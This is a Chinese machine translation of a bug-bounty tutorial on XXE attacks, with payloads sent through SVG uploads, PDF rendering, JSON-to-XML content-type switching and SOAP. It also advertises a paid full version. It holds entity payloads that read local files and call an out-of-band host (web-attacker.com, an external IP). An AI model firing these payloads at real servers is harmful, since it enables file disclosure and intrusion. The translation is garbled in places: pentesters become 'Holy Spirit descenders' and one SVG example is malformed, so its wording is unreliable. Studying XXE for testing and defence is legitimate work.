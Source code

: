 # 鼠叔(几乎)全 XXE 指南

> 原文：<https://infosecwriteups.com/uncle-rats-almost-full-guide-to-xxe-1955563a6598?source=collection_archive---------1----------------------->

# 介绍

XXE 是我最喜欢的攻击类型之一，因为它通常隐藏在地表以下。我们都知道，现在几乎没有人再使用 XML 文件了，因为 JSON 甚至 YAML 已经接管了它。然而，XXE 出现在 2017 年 OWASP 前 10 名中的事实确实说明了这种漏洞类型。

今天，我们将从圣灵降临者和虫子赏金猎人的角度，来看看我们能想到的所有可能的攻击媒介。保护你的应用程序免受 XXE 攻击也不简单，所以我希望这能给任何构建 web 应用程序的人一些如何更好地保护他们的应用程序的想法。

# 盲人 XXE

在我们开始谈论 XXE 之前，我们需要谈谈 XXE 袭击的盲点。无论你是一个圣灵降临者、虫类赏金猎人还是道德黑客，寻找盲人 XXE 而不是普通的 XXE 总是一个好主意。这将确保您不会错过任何入口点，因为有时我们可能会测试 XXE，并认为某个端点不容易受到攻击，因为我们看不到任何返回的数据，而实际上该端点可能容易受到盲 XXE 攻击。

盲目 XXE 意味着您正在成功执行攻击，但您看不到服务器的任何输出。这意味着为了确认我们的攻击是否成功，我们需要向外部服务器发出请求。我通常使用 burp collaborator 来测试此漏洞，并确保在此之后测试非盲漏洞，以防我们确实有详细的缺陷，但出口过滤已启用或类似情况。出口过滤是指防火墙过滤传出流量，不允许某些传出请求，如 HTTP 请求。

# 但是什么是 XXE 呢？

我们已经讨论过这个问题，但是要实现 XXE，我们需要一个 XML 处理器在后台工作。XML 处理器将接受任何 XML 文件，并且默认允许包含外部实体。这些实体可以是任何东西，从 ls 这样的系统命令(甚至可能是一个反向 shell？)到/etc/shadow 之类的文件。

好消息是，如果我们真的发现了 XXE 袭击，我们是圣灵降临者还是邪恶的赏金猎人都没关系。如果您可以在系统上找到文件，此问题的严重性将始终至少为中等，如果您可以执行命令，则可能会更高。只要确保你没有忘记证明影响，你不想失去所有这些工作，因为你没有证明任何影响。

大多数人都知道传统的 XML 文件是什么样子。

```
<note>
<script/>
<script/>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
```

如果我们可以将这个 XML 文件导入到我们的应用程序中来创建一个注释，我们就有了一个 XXE 攻击的入口点，但是这几乎不会发生！

你真的再也看不到太多 XML 了。大多数应用程序将使用不同类型的数据格式，但该漏洞在 2017 年 10 大 OWASP 列表中排名第四。这是否意味着 XML 文件再次成为热门话题？不，当然不是！淘汰过时的老技术！

还有其他一些 XML 攻击的入口点，大多数猎人可能没有听说过，或者他们可能没有仔细考虑过。

# XXE via SVG

这是我最喜欢的一个，因为几乎每个网站都有上传图片和渲染图片的选项。这就是 SVG 的本质，尽管它看起来比这更复杂，但事实并非如此。它实际上只是一个图像，但是用 XML 格式描述。这意味着，如果服务器允许 SVG 文件，我们可以随时测试 XXE。

```
<svg  xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

这个 SVG 文件将尝试打开文件:///etc/hostname 并显示给用户。

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<http://f2g9j7hhkax.web-attacker.com>"> ]><svg  xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200"><!ENTITY xxe SYSTEM '<http://f2g9j7hhkax.web-attacker.com>'></svg>
```

但是我们也可以从测试失明的 XXE 开始。我们可以将这些文本保存为“任何内容”。SVG '并尝试将它们上传到我们可以上传图像的任何地方，该图像将呈现在例如个人资料图片或横幅中。

# 通过 PDF 的 XXE

攻击一个目标有时意味着变得有创造性…非常有创造性。这可能看起来不太明显，但我们也可以通过 PDF 上传功能测试 XXE。同样，目标将需要渲染 PDF 来测试 XXE 攻击，因为如果您可以简单地上传 PDF 文件，但它永远不会渲染，那么服务器也永远不会尝试渲染您的 XML 攻击字符串。

根据 [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#pdf-file-upload) 如果以下攻击字符串被接受，我们还可以检查 XML 输入是否被接受。

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7foo=bar
```

然后，我们可以尝试是否也接受 XML 输入

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

随后，我们可以添加我们的 XXE 攻击字符串，当然，前提是 XML 输入被接受和处理。

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7<!ENTITY xxe SYSTEM '<http://f2g9j7hhkax.web-attacker.com>'>
```

# JSON 到 XXE

如今大多数 web 应用程序都接受 JSON 作为输入，这似乎很好地覆盖了 XXE 的大多数入口，因为如果我们不能处理 XML 文件；执行以 XML 格式为基础的攻击真的很难。还是会？它可能不像许多人认为的那样万无一失。

[https://book . hack tricks . XYZ/pentesting-web/xxe-xee-XML-external-entity # content-type-from-JSON-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)

根据 hacktricks，我们可以简单地改变内容类型头。这将利用一些服务器默认内置 XML 处理器的事实，如果开发人员从未禁用它们，我们可以使用它们来插入 XXE 攻击媒介。让我们看看 hacktricks 给我们的例子。

```
Content-Type: application/json;charset=UTF-8{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

我们可以简单地改变内容类型，并测试这是否仍然有效，以及内容是否将由 web 服务器处理。

```
Content-Type: application/json;charset=UTF-8Will change toContent-Type: application/xml;charset=UTF-8
```

这当然意味着我们还必须将主体更改为 XML 格式。为此，我使用了一个 JSON 到 XML 的转换器。

[https://www.freeformatter.com/json-to-xml-converter.html](https://www.freeformatter.com/json-to-xml-converter.html)

![](img/17fd0bffd80306eefeae4fbc19002f2e.png)

综合所有这些，我们得到

```
Content-Type: application/xml;charset=UTF-8<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
 <root>
  <firstName>dsfsdfsdf</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

我们也可以使用名为“Content Type Converter”的 Burp 扩展，不过我想至少解释一下如何手动完成这项工作。

如果服务器也接受这个请求，我们可以尝试输入我们的 XXE 攻击向量。

```
Content-Type: application/xml;charset=UTF-8<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "<http://34.229.92.127:8000/TEST.ext>" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

在本例中，仅测试了第一个节点“Firstname ”,但我们当然需要测试所有节点，因为 XXE 可能发生在每个节点上。这是因为开发人员要么必须在一些 XML 处理器上单独保护每个节点。

# 通过 SOAP 访问 XXE

SOAP 代表简单对象访问协议，它基本上是另一种协议，如 HTTP 或 FTP，但 SOAP 使用类似 XML 的结构进行通信。你们中眼尖的人可能已经猜到 SOAP 也可能容易受到 XXE 攻击，但是我们将再次确保我们测试每一个节点。在 SOAP 中，每个节点都必须由开发人员保护，因此我们也可以在这里测试其他东西，如 SQLi 和 XSS。

# 剥削和更多

这是关于 XXE 的文件的免费版本，只需 2 美元(低于一杯咖啡的价格)就可以获得包括视频报道在内的完整版本，请前往 https://gum.co/ZbQkN 的